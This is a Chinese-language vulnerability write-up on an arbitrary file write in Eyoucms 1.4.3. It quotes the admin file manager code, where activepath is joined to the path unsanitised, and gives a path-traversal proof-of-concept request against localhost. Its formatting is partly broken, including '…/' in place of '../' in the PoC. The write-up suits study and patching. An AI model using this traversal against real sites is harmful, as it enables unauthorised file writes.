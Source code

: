 ```yaml
---
title: "Eyoucms 1.4.3 任意文件写入"
id: zhfly2927
---
```


# Eyoucms 1.4.3 任意文件写入

## 一、漏洞简介

可写入html,css,js,txt文件，总体来说比较鸡肋。

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞点只对`filename`进行过滤，而忘了`activepath`也可以`../`进行跳转 `application/admin/controller/Filemanager.php`

```
 if (IS_POST) {
         $post = input('post.', '', null);
         $content = input('post.content', '', null);
         $filename = !empty($post['filename']) ? trim($post['filename']) : '';
         $content = !empty($content) ? $content : '';
         $activepath = !empty($post['activepath']) ? trim($post['activepath']) : '';

```
 ... ...

     $r = $this-&gt;filemanagerLogic-&gt;editFile($filename, $activepath, $content);
     if ($r === true) {
         $this-&gt;success('操作成功！', url('Filemanager/index', array('activepath'=&gt;$this-&gt;filemanagerLogic-&gt;replace_path($activepath, ':', false))));
         exit;
     } else {
         ... ... 
``` 
```

跟进`editFile`函数

```
application/admin/logic/FilemanagerLogic.php
 public function editFile($filename, $activepath = '', $content = '')
 {
     $fileinfo = pathinfo($filename);// pathinfo获取后缀
     $ext = strtolower($fileinfo['extension']);

```
 ......

 /*允许编辑的文件类型*/
 if (!in_array($ext, $this-&gt;editExt)) { //&lt;&lt;&lt;&lt;&lt;基于白名单，暂时没有想到绕过的方法&gt;&gt;&gt;&gt;&gt;
     return '只允许操作文件类型如下：'.implode('|', $this-&gt;editExt);
 }
 /*--end*/

 $filename = str_replace("..", "", $filename);// 仅对filename进行过滤
 $file = $this-&gt;baseDir."$activepath/$filename"; // 此处直接拼接产生漏洞
 if (!is_writable(dirname($file))) {
     return "请把模板文件目录设置为可写入权限！";
 }
 if ('css' != $ext) {
     $content = htmlspecialchars_decode($content, ENT_QUOTES);
     $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);//
     // $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
 }
 $fp = fopen($file, "w");
 fputs($fp, $content);
 fclose($fp);
 return true; 
``` `}` 
```

### 漏洞复现

### poc

```
 POST /eyoucms/login.php?m=admin&c=Filemanager&a=newfile&lang=cn HTTP/1.1
 Host: 127.0.0.1
 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:67.0) Gecko/20100101 Firefox/67.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 94
 Origin: http://127.0.0.1
 Connection: close
 Referer: http://127.0.0.1/eyoucms/login.php?m=admin&c=Filemanager&a=newfile&activepath=%3Atemplate%3Aplugins%3Atest&lang=cn
 Cookie: home_lang=cn; admin_lang=cn; PHPSESSID=h6k34lgf1svcatllongehqqdt0; workspaceParam=index%7CFilemanager; XDEBUG_SESSION=18705
 Upgrade-Insecure-Requests: 1 `activepath=%2Ftemplate%2Fplugins%2Ftest/…/…/…/uploads/tmp&filename=newfile.htm&content=test` 
```